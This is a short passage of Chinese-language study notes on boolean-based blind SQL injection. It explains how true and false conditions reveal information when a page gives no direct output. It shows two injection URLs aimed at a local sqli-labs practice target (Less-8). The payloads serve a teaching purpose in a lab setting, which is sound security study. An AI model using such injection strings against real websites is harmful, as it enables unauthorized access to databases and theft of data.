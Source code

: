 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230604223918496.png" alt="image-20230604223918496" style="zoom:50%;" />

## 布尔盲注

> 适用于目标站点存在注入点但没有回显的情况

### 注入原理：

通过使用布尔判断是否有正确回显，以达到信息猜测的目的

`and 1=1` 为真，页面正常显示

```
http://192.168.231.129:9001/Less-8/?id=1' and 1=1%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230605155931573.png" alt="image-20230605155931573" style="zoom:50%;" />

`and 1=2`为假，页面无回显

```
http://192.168.231.129:9001/Less-8/?id=1' and 1=2%23
```
